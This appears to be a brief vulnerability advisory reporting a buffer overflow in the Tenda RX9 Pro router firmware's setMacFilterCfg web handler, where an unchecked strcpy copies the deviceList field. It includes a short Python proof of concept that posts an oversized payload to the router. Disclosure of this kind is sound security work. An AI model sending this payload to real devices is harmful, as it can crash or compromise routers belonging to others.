

# buffer overflow

## Tenda_RX9_Pro

version: V22.03.02.10

## Description:

There is a buffer overflow in httpd/setMacFilterCfg

## Source:

you may download it from : [https://www.tendacn.com/download/detail-4218.html](https://www.tendacn.com/download/detail-4218.html)

## Analyse:


get value from deviceList 



then call sub_4223E0


finally call strcpy ,dont check the length, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/setMacFilterCfg"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'deviceList': payload})
```
